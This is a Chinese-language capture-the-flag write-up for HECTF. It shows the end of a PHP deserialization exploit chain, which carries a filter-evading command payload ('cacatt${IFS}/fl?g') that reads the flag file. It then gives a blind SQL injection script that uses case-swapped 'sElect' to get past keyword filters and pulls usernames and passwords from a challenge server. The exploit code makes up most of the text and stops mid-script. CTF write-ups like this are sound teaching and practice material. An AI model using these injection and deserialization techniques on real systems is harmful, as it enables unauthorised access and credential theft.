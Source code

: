 ```php
    public $auth = "who are you?";
 
    public function Welcome(){
        if(unserialize($this->auth)=="zxk1ing"){
            $star = (array($this->obj,"⭐","⭐","⭐","⭐","⭐"));
            echo $star;
        }
        else
            echo 'Welcome HECTF! Have fun!';
    }
 
    public function __get($get)
    {
        $func = $this->flag;
        return $func();
    }
}
 
$a = new unser('a','a');
$a->obj = new heeectf();
$a->obj->auth = 's:7:"zxk1ing";';
$a->obj->obj = new GGbond();
$a->obj->obj->candy = new heeectf();
$a->obj->obj->candy->flag = new HECTF();
$a->obj->obj->candy->flag->cmd = "cacatt\${IFS}/fl?g|teteee\${IFS}a";
$b = serialize($a);
echo preg_replace('/s:4:"flag"/','S:4:"\\\66lag"',$b);
?>
```

啊啊啊没环境啊

# ezweb

本质上是sql注入，是盲注

与骆佬做了一下，后面才发现并不是模板注入，起因还得是试了试select，发现被过滤了，然后开始试了试一些万能注入，回显admin的时候还真是sql注入

过滤了select，and，sleep， handler，但大小写检测不严谨。由于不同输入有不同回显，因此是盲注

脚本的话。还是放出来吧，讲讲逻辑

```python
import requests

url = "http://101.133.164.228:32285/404.php"
result = ''

for i in range(0, 100):
    right = 127
    left = 32
    mid = int((right + left) >> 1)
    while right > left://右等于左的时候退出，相当于此时的mid就是我们所需要的字符
        # payload = "if(ascii(substr((database()),%d,1))>%d,1,0)#" % (i, mid)
        # payload = "if(ascii(substr((selEct group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))>%d,1,0)#" % (i, mid)
        # payload = "if(ascii(substr((selEct group_concat(column_name) from information_schema.columns where table_name='users'),%d,1))>%d,1,0)#" % (i, mid) //if的语句后面的意思就是符合条件返回1，不符合的返回0
        //substr用于截取查询后语句的第i个字符，判断这个字符的ascii码是否大于mid，%(i,mid)相当于把i与mid的值赋值给一前一后的%d
        payload = "if(ascii(substr((sElect group_concat(name,password) from ctf.users),%d,1))>%d,1,0)#" % (i, mid)
        params = {
            "sort": '1\'or 1='+payload,
        }
        response = requests.post(url, data=params)
```